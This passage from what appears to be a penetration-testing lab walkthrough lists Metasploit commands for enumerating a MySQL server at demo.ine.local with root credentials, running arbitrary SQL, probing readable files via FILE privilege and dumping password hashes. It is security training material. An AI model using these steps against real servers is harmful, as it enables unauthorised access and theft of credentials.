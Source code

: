 ### Step 6 — Run `auxiliary/admin/mysql/mysql_enum` (detailed enumeration)

```text
use auxiliary/admin/mysql/mysql_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```

- Purpose: a quick higher-level enumeration (users, databases, privileges) using valid credentials. Look for user lists, DB names, and privilege summaries.

### Step 7 — Run `auxiliary/admin/mysql/mysql_sql` (execute arbitrary SQL)

```text
use auxiliary/admin/mysql/mysql_sql
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```

- This module runs a SQL command (configured via the module options). You can execute `SHOW DATABASES;` or other read-only queries. The module output should display result rows.

### Step 8 — Run `auxiliary/scanner/mysql/mysql_file_enum` (search for files via SQL FILE privilege)

```text
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```

- Purpose: attempt `LOAD_FILE()`/`INTO OUTFILE` style checks to enumerate readable/writable files when the account has `FILE` privileges. Inspect module output for discovered file contents or indications of access.

### Step 9 — Run `auxiliary/scanner/mysql/mysql_hashdump` (hash collection)

```text
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
